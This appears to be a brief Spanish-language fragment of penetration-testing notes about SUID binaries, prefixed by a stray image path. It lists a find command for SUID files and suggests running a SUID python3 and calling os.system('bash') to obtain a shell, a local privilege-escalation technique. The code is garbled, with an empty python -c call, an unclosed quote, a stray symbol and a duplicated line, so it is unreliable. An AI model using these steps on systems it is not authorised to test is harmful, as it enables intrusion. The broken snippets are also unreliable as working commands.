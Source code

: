 -- Los archivos con SUID pueden lelgar a ser crítico
```
find -perm -4000 -ls 2>/dev/null
```
si tenemos un archivo que nos permita ejecutar una consola, como por ejemplo python3
```
python3 -c ''
```
o si es python3.9
```○
python3.9
```

```
import os 
os.system("whoami)
os.system("bash")
os.system("bash")
```